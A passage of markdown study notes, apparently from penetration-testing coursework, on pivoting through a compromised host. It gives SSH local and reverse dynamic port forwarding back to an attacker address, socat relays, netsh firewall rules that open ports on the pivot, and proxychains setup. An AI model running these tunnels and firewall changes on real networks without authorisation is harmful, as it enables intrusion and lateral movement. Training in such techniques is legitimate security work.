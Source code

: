 				- ![](local-port-fwd.png)
				- Forward port 80 from the attacking machine and make it available from `PC-1` using the following from `PC-1` `ssh tunneluser@<attacker-ip> -L *:80:127.0.0.1:80 -N`.
					- `-L` for local port forwarding.
					- `*:80` indicates the local socket used by `PC-1` to receive connections.
					- `127.0.0.1:80` remote socket to connect to from the attacking machine.
					- Loop-back is used in the second socket, as from the attacker's perspective, that's the host that holds the port 80 to be forwarded.
				- Since we'll be opening a new port on `PC-1`, we might need to add a firewall rule to allow for incoming connections.
				- Administrative privileges are needed for this `netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=80`.
				- Once the tunnel is set up, any user pointing their browser to `http://<pc1-ip>:80` will see the website published by the attacking machine.
		- #### *Port Forwarding With Socat*
			- In situations where SSH isn't available.
			- One disadvantage is we have to transfer `socat` to the pivot host `PC-1`, making it more detectable.
			- Open port 1234 on a host and forward any connection we receive there to port 4321 on attacking machine `socat TCP4-LISTEN:1234,fork TCP4:<attacking-ip>:4321`.
				- The `fork` option allows `socat` to fork a new process for each connection received, making it possible to handle multiple connections without closing.
				- If we don't include it, `socat` will close when the first connection made is finished.
			- If we wanted to access port 3389 on the server using `PC-1` as a pivot as we did with SSH remote port forwarding, use `socat TCP4-LISTEN:3389 TCP4:<Server-ip>:3389`.
				- `socat` can't forward the connection directly to the attacker's machine as SSH did but will open a port on `PC-1` that the attacker's machine can then connect to.
			- Since a port is being opened on the pivot host, we might need a firewall rule to allow any connections to that port `netsh advfirewall firewall add rule name="Open Port 3389" dir=in action=allow protocol=TCP localport=3389`.
			- To expose port 80 from the attacker machine so that it is reachable by the Server, use `socat TCP4-LISTEN:80,fork TCP4:<attacker-ip>:80`.
				- As a result, `PC-1` will spawn port 80 and listen for connections to be forwarded to port 80 on the attacking machine.
		- #### *Dynamic Port Forwarding and SOCKS*
			- For situations where we want to run scans against many ports of a host, or even many ports across many machines, all through pivot host.
			- Use the SSH client to establish a reverse dynamic port forwarding with `ssh tunneluser@<attacker-ip> -R 9050 -N`.
				- The SSH server (attacking machine) will start a SOCKS proxy on port 9050, and forward any connection request through the SSH tunnel, where they are finally proxied by the SSH client `PC-1`.
			- The interesting thing is, we can easily use any of our tools through the SOCKS proxy by using `proxychains`.
				- To do that we first need to make sure that `proxychains` is correctly configured to point any connection to the same port used by SSH for the SOCKS proxy.
				- The `proxychains` configuration file can be found in `/etc/proxychains.conf`.
				- At the end of the configuration file, a line that indicates the port in use for SOCKS proxying should be seen